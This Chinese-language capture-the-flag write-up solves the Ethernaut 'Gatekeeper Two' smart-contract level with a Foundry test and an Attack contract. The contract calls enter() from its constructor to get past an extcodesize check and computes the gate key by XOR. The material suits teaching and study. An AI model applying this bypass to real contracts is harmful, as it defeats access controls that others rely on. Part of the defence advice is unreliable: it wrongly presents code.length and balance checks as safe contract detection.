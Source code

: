 ```yaml
---
title: 'Etnhernault Level 14: Gatekeeper Two - 合约创建时的 extcodesize'
date: 2025-01-25 16:15:00
updated: 2025-01-25 16:15:00
categories:
  - Ethernaut 系列
  - 进阶攻击篇 (11-20)
tags:
  - Ethernaut
  - Foundry
  - extcodesize
  - constructor
  - 智能合约安全
  - Solidity
series: Ethernaut Foundry Solutions
excerpt: "利用合约在 `constructor` 阶段 `extcodesize` 为0的特性，巧妙绕过复杂的访问控制。深入理解 `caller()` 和 `extcodesize` 的工作原理，掌握 Gatekeeper Two 关卡的破解技巧。"
---
```


# 🎯 Ethernaut Level 14: Gatekeeper Two - 合约创建时的 extcodesize

> **关卡链接**: [Ethernaut Level 14 - Gatekeeper Two](https://ethernaut.openzeppelin.com/level/14)  
> **攻击类型**: `extcodesize` / `constructor` 交互  
> **难度**: ⭐⭐⭐⭐☆

## 📋 挑战目标

与上一关类似，我们需要再次通过三个 `modifier` 的检查，成为 `entrant`。

![Gatekeeper Two Requirements](https://ethernaut.openzeppelin.com/imgs/BigLevel14.svg)

## 🔍 漏洞分析

要通过此关卡，我们需要调用 `enter(bytes8 _gateKey)` 函数，并绕过它的三个 `modifier`。

### Modifier 1: `gateOne`

```solidity
modifier gateOne() {
  require(msg.sender != tx.origin);
  _;
}
```

与第13关完全相同。我们需要通过一个中间合约来调用 `enter` 函数，以确保 `msg.sender` 是合约地址，而 `tx.origin` 是我们的EOA地址。

### Modifier 2: `gateTwo`

```solidity
modifier gateTwo() {
  uint x;
  assembly {
    x := extcodesize(caller())
  }
  require(x == 0);
  _;
}
```

这个 `modifier` 使用内联汇编检查 `caller()` 的 `extcodesize` 是否为0。`caller()` 返回的是直接调用者的地址（在我们的场景中，就是攻击合约的地址），而 `extcodesize` 返回该地址关联的代码大小。

-   如果调用者是一个已经部署的合约，`extcodesize` 会返回一个大于0的值。
-   如果调用者是一个外部账户（EOA），`extcodesize` 返回0。

这与 `gateOne` 的要求（`msg.sender` 必须是合约）产生了矛盾。我们如何才能让一个合约地址的 `extcodesize` 为0呢？

答案在于合约的创建过程：**当一个合约的 `constructor` 正在执行时，该合约的代码尚未完全部署到链上，因此此时对该合约地址调用 `extcodesize` 会返回0。**

因此，我们必须在攻击合约的 `constructor` 内部调用目标合约的 `enter` 函数。

### Modifier 3: `gateThree`

```solidity
modifier gateThree(bytes8 _gateKey) {
  require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
  _;
}
```

这个 `modifier` 包含一个有趣的异或（XOR）逻辑。让我们简化一下：

`A ^ B = C`

其中：
-   `A` 是 `uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))`
-   `B` 是 `uint64(_gateKey)`
-   `C` 是 `type(uint64).max` (即 `0xFFFFFFFFFFFFFFFF`)

根据异或运算的性质，如果 `A ^ B = C`，那么 `A ^ C = B`。

因此，我们可以通过计算 `A ^ C` 来得到我们需要的 `_gateKey`。

`_gateKey = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ type(uint64).max`

由于 `msg.sender` 是我们的攻击合约地址，我们可以在攻击合约的 `constructor` 中计算出这个值。

## 💻 Foundry 实现

### 攻击合约代码

我们的攻击合约非常简洁。它在 `constructor` 中完成所有的工作：计算 `gateKey` 并立即调用目标实例的 `enter` 函数。

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "src/14_GatekeeperTwo.sol";

// Foundry 测试合约
contract GatekeeperTwoTest is Test {
    GatekeeperTwo instance;
    Attack attacker;
    address player1;

    function setUp() public {
        player1 = vm.addr(1);
        instance = new GatekeeperTwo();
    }

    function testAttacker() public {
        vm.startPrank(player1, player1);
        // 部署攻击合约时，其构造函数会自动执行攻击
        attacker = new Attack(address(instance));
        // 验证攻击是否成功
        assertEq(instance.entrant(), player1);
        vm.stopPrank();
    }
}

// 攻击合约
contract Attack {
    constructor(address _instanceAddress) {
        GatekeeperTwo instance = GatekeeperTwo(_instanceAddress);

        // 计算 gateKey
        // A ^ C = B
        uint64 keyPart = uint64(bytes8(keccak256(abi.encodePacked(address(this)))));
        uint64 max_uint = type(uint64).max; // 0xFFFFFFFFFFFFFFFF
        bytes8 gateKey = bytes8(keyPart ^ max_uint);

        // 在构造函数中调用 enter 函数
        instance.enter(gateKey);
    }
}
```

### 关键攻击步骤

1.  **创建攻击合约**: 攻击逻辑完全包含在 `constructor` 中。
2.  **在 `constructor` 中调用**: 这是关键。在 `constructor` 中调用 `enter` 函数，此时 `extcodesize(address(this))` 为0，绕过了 `gateTwo`。
3.  **计算 `_gateKey`**: 在 `constructor` 中，使用 `address(this)` 作为 `msg.sender` 来计算 `keccak256` 哈希，并通过XOR运算得到正确的 `_gateKey`，从而绕过 `gateThree`。
4.  **部署即攻击**: 部署攻击合约的交易一旦成功，攻击就完成了，`entrant` 将被设置为我们的EOA地址。

## 🛡️ 防御措施

1.  **避免使用 `extcodesize` 进行合约检查**: 正如本例所示，`extcodesize` 可以被 `constructor` 调用绕过。一个更可靠的检查方法是判断 `address.balance > 0` 或者 `address.code.length > 0`（在Solidity 0.8.10及更高版本中）。
2.  **对 `caller` 的额外检查**: 如果确实需要阻止合约调用，可以结合 `tx.origin == msg.sender` 的检查，但这会限制合约的可组合性。
3.  **简化密钥验证**: 复杂的密钥派生逻辑（如本例中的XOR）可能看起来安全，但如果所有输入都来自链上，攻击者通常可以逆向工程出正确的密钥。应使用链下签名等更安全的机制。

## 🔧 相关工具和技术

-   **`constructor`**: 合约的构造函数，仅在合约部署时执行一次。理解其在生命周期中的特殊性（如 `extcodesize` 为0）是解决此类挑战的关键。
-   **`extcodesize`**: 一个EVM操作码，用于获取地址的代码大小。是区分EOA和合约的常用方法，但有其局限性。
-   **异或运算 (`^`)**: 一种位运算符，在密码学和哈希操作中很常见。理解其 `A ^ B = C` <=> `A ^ C = B` 的性质对于解决 `gateThree` 至关重要。

## 🎯 总结

**核心概念**:
-   合约在 `constructor` 执行期间的代码大小（`extcodesize`）为0。
-   `caller()` 和 `address(this)` 在特定上下文中的区别和联系。
-   异或（XOR）运算的可逆性是解决密码学相关谜题的常用工具。

**攻击向量**:
-   利用 `constructor` 的特性绕过 `extcodesize` 检查。
-   在 `constructor` 中完成所有攻击步骤，实现“部署即攻击”。
-   逆向工程XOR逻辑以计算出所需的密钥。

**防御策略**:
-   不要依赖 `extcodesize` 来判断一个地址是否为合约。
-   设计更简单、更直接的验证机制，避免模糊的链上密钥派生。

## 📚 参考资料

-   [Solidity Docs: `extcodesize` Caveats](https://docs.soliditylang.org/en/latest/security-considerations.html#extcodesize-and-contracts-in-construction)
-   [Understanding the EVM: Opcodes](https://www.evm.codes/)